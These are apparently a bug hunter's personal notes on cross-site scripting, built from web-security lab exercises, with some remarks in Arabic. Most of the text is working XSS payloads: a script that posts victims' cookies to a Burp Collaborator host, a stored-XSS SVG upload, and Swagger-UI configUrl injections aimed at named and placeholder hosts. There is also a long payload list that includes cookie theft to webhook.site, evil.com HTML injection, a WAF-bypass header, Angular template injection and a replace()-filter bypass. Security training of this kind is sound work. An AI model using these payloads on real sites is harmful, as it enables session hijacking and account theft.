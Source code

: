 # Hunting

# XSS:

**lab1:**

in search bar : habiba

src code:

<h1>0 search results for “habiba”</h1>

payload:

- take from begin of my search to end
    
    habiba”</h1> <svg onload = confirm()> <!—
    

**lab2:**

in search bar : habiba

src code:

var searchterms = “habiba”;

payload:

habiba”; alert();//

**lab3(encoded angle brackets):**

src code:

…. name = search value = “habiba”>

payload:

habiba” onclick = “alert()

lab4:

**DOM XSS in `document.write` sink using source `location.search`** 

open inspect and search for the word

1. **Exploiting cross-site scripting to steal cookies**

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

// BURP-COLLABORATOR-SUBDOMAIN بستبدله ب domain of collaborator

1. **Stored XSS using SVG file “in upload photos or files”**
    - file.svg

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS by BHARAT");
  </script>
</svg>
```

1. payloads for /swagger-ui or /DOC XSS

[https://developers.autosense-cloud.com/swagger-ui/](https://developers.autosense-cloud.com/swagger-ui/)?

configUrl=data:text/html;base64, ewoidXJsIjoiaHR0cHM6Ly9zdGFuZ

GluZy1zYWxOLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==

https://VULNERABLE_JAMF/classicapi/doc/?

configUrl=data:text/html;base64, ewoidXJsIjoiaHR0cHM6Ly9zdGFuZ

GluZy1zYWxOLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==

[https://developers.autosense-cloud.com/swagger-ui/](https://developers.autosense-cloud.com/swagger-ui/)?configUrl=https://jumpy-floor.surge.sh/test.json 

[https://VULNERABLE_JAMF/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json](https://VULNERABLE_JAMF/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json) 

1. Payloads
- alert()
- confirm()
- prompt()
- write()
- print()
- “habiba”+alert(1)+”habiba”
- javascript: alert(1)
- <img src=”javascript: alert(1)”>
- <iframe src=”javascript: alert(1)”>
- <svg onload = alert(1)>
- onload alert(1)
- blabla’<h1> <svg onload=confirm()> <!—
- blabla” onclick = “alert()
- <img/src/onerror=.1|alert(document.domain)>
- "><img+id%3D%26%23×101%3B+src%3Dx+onerror%3D%26%23×101%3B%3Balert(document.domain)%3B>
- %22%20%2C%20internalSearchTerm%3A%20%5B"broook"%5D.map%28alert%29%20%2C%20numOfSearchResultsReturned%3A%20%22b
DECODED : " , internalSearchTerm: ["broook"].map(alert) , numOfSearchResultsReturned: "b
- blabla’; alert();//
- <script>alert(document.cookie)</script>
- }}})</script><script>alert(1)</script>
- ‘”><script>alert(document.cookie)</script>
- “><script>alert(‘<img src=”[https://webhook.site/abcded-asa-daasasada-asdaad-adad?c='+document.cookie+'](https://webhook.site/abcded-asa-daasasada-asdaad-adad?c=%27%2Bdocument.cookie%2B%27) ”/>’);</script> //
- “><script>alert(document.cookie);</script> //
- ‘;</script><script>prompt(1);</script>;//
- `"><script>alert("XSS Test");</script><"`
- `=d1bvs%3c%2fscript%3e%3cscript%3ealert(`XSS`)%3c%2fscript%3ec579g`
- لو الأنا بكتبه بيترفع فى الرابط بحقن ب :
- javascript: alert(1)
    - اول ما الاقى رابط ثانوى او مسار فى اللينك بشيله و بحقن ب :
    https://0a9800ed0439ab938256790300320079.web-security-academy.net/feedback?returnPath=javascript: alert(1)
- javascript: alert(1) —> encode () in URL

1. DOM XSS in JQuery:
    
    <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    
    —>write in html file and change highlighted with link
    
2. HTML injection:
    
    payloads:
    
    <h1></h1>
    
    <u></u>
    
    `<img src=x onload = confirm()>`
    
    `<iframe src= https://evil.com><iframe>`
    
    `<a href=https://www.evil.com> click here </a>`
    
    places : 
    
    support section in site
    
3. bypass WAF:
    
    add header —> Contect-Encoding: WAFBYPASS
    
4. `<a> and <iframe> tags accept javascript:alert() <a href= “javascript: alert(1)”>test</a>`

    `<iframe src= “javascript:alert(1)”></iframe>`
    
5. angular:
    
    any payload related to angular will execute in <ng-app>
        like: `{{$on.constructor('alert(1)')()}}`
    
6. apply links:
    
    test if it check only “http” or “https” in url only or check all url
    
7. to prevent damage page with stord xss:
use —> console.log() instead of alert()
8. uni code :
    
    url encode “<” = %3c 
    
    uni code “<” = \u003c 
    
    hex code “<” = \x3c
    

14.

in console write :

eval(”alert(document.cookie)”)

or

eval(”ale”+’rt(document.cookie)’)

1. 

```
<><img src=1 onerror=alert(1)>
```

In an attempt to prevent XSS, the website uses the JavaScript `replace()`
 function to encode angle brackets. However, when the first argument is a
 string, the function only replaces the first occurrence. We exploit 
this vulnerability by simply including an extra set of angle brackets at
 the beginning of the comment. These angle brackets will be encoded, but
 any subsequent angle brackets will be unaffected, enabling us to 
effectively bypass the filter and inject HTML.